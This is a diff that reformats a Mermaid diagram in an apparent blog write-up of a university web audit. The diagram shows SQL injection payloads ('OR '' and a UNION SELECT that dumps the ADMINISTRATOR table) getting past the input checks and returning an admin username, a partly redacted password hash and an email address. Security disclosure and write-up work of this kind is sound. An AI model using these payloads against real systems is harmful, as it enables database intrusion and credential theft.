

The third of 5 diagrams in _posts/2025-10-06-university-web-audit.md (Zere0/zere0.github.io), drawn with Mermaid (dark theme) before and after one commit. The commit also changed other lines of this file and 35 other files, not shown here.

````diff
--- a/_posts/2025-10-06-university-web-audit.md
+++ b/_posts/2025-10-06-university-web-audit.md
@@ -147,9 +148,9 @@
 ```mermaid
 %%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
 flowchart TD
-    B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
-    C["National ID</br></br>*=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -*"] --> E["quotes removed  ✅"]
+    B["enrollment number</br></br>'OR ''"] --> D["length==6  ✅"]
+    C["National ID</br></br>=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -"] --> E["quotes removed  ✅"]
     D --> G["UNION SELECT from ADMINISTRATOR executes"]
     E --> G["UNION SELECT from ADMINISTRATOR executes"]
-    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -*</br></br>and with enrollment number:</br>*'OR ''*</br></br>is assigned the group number:</br><mark>10 admin admin admin $1$aE4.badsb78...5c1 admin\@fi.upm.es 1</mark>"]
+    G --> H["Group identifier lookup response:</br></br>Student with National ID/Passport:</br>=2 UNION SELECT CONCAT(ADMINID, CHAR(32), ADMINNAME, CHAR(32), SURNAMEADM, CHAR(32), USER, CHAR(32), PASSWORD, CHAR(32), EMAIL, CHAR(32), ADMIN) FROM ADMINISTRATOR-- -</br></br>and with enrollment number:</br>'OR ''</br></br>is assigned the group number:</br><mark>10 admin admin admin $1$aE4.badsb78...5c1 admin@fi.upm.es 1</mark>"]
 ```
````
